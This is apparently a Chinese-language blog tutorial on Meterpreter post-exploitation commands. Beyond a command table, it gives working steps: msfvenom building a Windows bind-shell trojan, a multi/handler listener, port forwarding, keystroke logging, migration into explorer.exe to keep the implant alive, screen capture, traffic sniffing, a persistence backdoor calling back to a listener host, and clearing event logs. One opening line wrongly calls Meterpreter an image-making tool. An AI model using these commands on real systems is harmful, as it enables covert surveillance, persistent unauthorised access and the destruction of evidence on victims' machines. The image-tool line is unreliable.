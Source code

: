 ```yaml
---
layout:     post
title:      Meterpreter-基础命令
subtitle:
date:       2020-5-9
author:     BY Diego
header-img: /img/wenzhang/post-bg-Meterpreter.jpg
catalog: true
tags:
    - 工具
    - 渗透
---
```


# 一、基础

Meterpreter是个用来产生各种图像的命令。适用于广大图形爱好者。

![YejJ4s.png](https://s1.ax1x.com/2020/05/07/YejJ4s.png)


help 命令查看帮助
![YmeEyF.png](https://s1.ax1x.com/2020/05/07/YmeEyF.png)

核心命令如下

命令 | 含义
-|-
banner |  显示一个metasploit横幅
cd |  更改当前的工作目录
color |  切换颜色
connect |  连接与主机通信
exit  | 退出控制台
get  | 获取特定于上下文的变量的值
getg |  获取全局变量的值
grep | grep另一个命令的输出
help  | 帮助菜单
history |   显示命令历史
irb  | 进入irb脚本模式
load  | 加载一个框架插件
quit  | 退出控制台
route  | 通过会话路由流量
save |  保存活动的数据存储
sessions  |  转储会话列表并显示有关会话的信息
set |  将特定于上下文的变量设置为一个值
setg |  将全局变量设置为一个值
sleep |  在指定的秒数内不做任何事情
spool  | 将控制台输出写入文件以及屏幕
threads |  线程查看和操作后台线程
unload |  卸载框架插件
unset |  取消设置一个或多个特定于上下文的变量
unsetg |  取消设置一个或多个全局变量
version |  显示框架和控制台库版本号

在控制台内是可以直接执行命令的
[![YmmoCt.png](https://s1.ax1x.com/2020/05/07/YmmoCt.png)](https://imgchr.com/i/YmmoCt)

## Meterpreter中常用的反弹类型
**1.reverse_tcp**
这是一个基于TCP的反向链接反弹shell, 使用起来很稳定

**2.reverse_http**
基于http方式的反向连接，在网速慢的情况下不稳定。

**3.reverse_https**
基于https方式的反向连接，在网速慢的情况下不稳定， https如果反弹没有收到数据，可以将监听端口换成443试试

**4.bind_tcp**
这是一个基于TCP的正向连接shell，因为在内网跨网段时无法连接到attack的机器，所以在内网中经常会使用，不需要设置LHOST。
# 二、常见用法

## (1) windows

### ① msfvenom 生成木马
**查找payload**
```bash
msfvenom -l  payload | grep window
```
**生成木马**(正向连接型)
```bash
msfvenom -p windows/x64/meterpreter/bind_tcp  lport=60005 -f exe -o test.exe
```
**配置Meterpreter**
```bash
use multi/handler
```
![YmtcFK.png](https://s1.ax1x.com/2020/05/07/YmtcFK.png)
![YmtgJO.png](https://s1.ax1x.com/2020/05/07/YmtgJO.png)

**会话管理**
background #把meterpreter后台挂起
bglist #提供所有正在运行的后台脚本的列表
sessions #
session -i number # 与第number个交互
session -k number # kill 第number
![YnTpPP.png](https://s1.ax1x.com/2020/05/08/YnTpPP.png)

**文件上传**
[![YmaNJf.png](https://s1.ax1x.com/2020/05/07/YmaNJf.png)](https://imgchr.com/i/YmaNJf)
[![YmaUW8.png](https://s1.ax1x.com/2020/05/07/YmaUW8.png)](https://imgchr.com/i/YmaUW8)

**执行命令**
"execute"命令为目标主机上执行一个命令，其中"execute -h"显示帮助信息。-f为执行要运行的命令, -H后台执行 -i交互 -d 在目标主机执行时显示的进程名称（用以伪装）-m 直接从内存中执行
 "-o wce.txt"是wce.exe的运行参数
![YmdGX4.png](https://s1.ax1x.com/2020/05/07/YmdGX4.png)

**文件查找**
![Ymd8cF.png](https://s1.ax1x.com/2020/05/07/Ymd8cF.png)

**修改文件** edit filename
**查看文件** cat filename
**目录** cd / dir

**端口转发**
当服务在内网，无法直接访问可以端口转发到本机
这里将目标的 80 转发到了 8888
```shell
portfwd add  -l 8888 -p 80 -r 192.168.1.107
```
![Yn5sZn.png](https://s1.ax1x.com/2020/05/08/Yn5sZn.png)
![Yn5yaq.png](https://s1.ax1x.com/2020/05/08/Yn5yaq.png)

**键盘监控**
keyscan_start # 开始捕获
keyscan_dump  # 打印
keyscan_stop  # 停止
![Ynb98x.png](https://s1.ax1x.com/2020/05/08/Ynb98x.png)

**进程迁移**
防止木马挂掉，可以将进程迁移到其他合法进程上如explorer.exe是Windows程序管理器或者文件资源管理器
1. ps |grep explorer.exe 通过ps找到进程PID
2. migrate  **
![YuDjoQ.png](https://s1.ax1x.com/2020/05/08/YuDjoQ.png)


**屏幕捕获**
use espia
screengrab 捕获
![Yu85PU.png](https://s1.ax1x.com/2020/05/08/Yu85PU.png)

**屏幕监控**
```shell
enumdesktops  #查看可用的桌面
getdesktop    #获取当前meterpreter 关联的桌面
setdesktop   #设置meterpreter关联的桌面  -h查看帮助
screenshot  #截屏
use espia  #或者使用espia模块截屏  然后输入screengrab
run vnc  #使用vnc远程桌面连接
```
![YQZWHU.png](https://s1.ax1x.com/2020/05/09/YQZWHU.png)

**流量监控**
```shell
use sniffer
sniffer_interfaces   #查看网卡
sniffer_start 2   #选择网卡 开始抓包
sniffer_stats 2   #查看状态
sniffer_dump 2 /tmp/lltest.pcap  #导出pcap数据包
sniffer_stop 2   #停止抓包
```
![YQEgGn.png](https://s1.ax1x.com/2020/05/09/YQEgGn.png)

**持久后门**
```bash
run persistence -X -i 5 -p 7777 -r 192.168.1.100
# -i 5 每五秒发送包 -p kali 接收端口 -r kail主机
reboot
exit

set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 7777
exploit
```
![YKW2DA.png](https://s1.ax1x.com/2020/05/08/YKW2DA.png)

**日志清除**
clearav


**待更新**
# 参考

[Metasploit 使用MSFconsole接口](https://www.fujieace.com/metasploit/msfconsole.html)

[后渗透之meterpreter使用攻略](https://xz.aliyun.com/t/2536#toc-9)

[]()

[]()
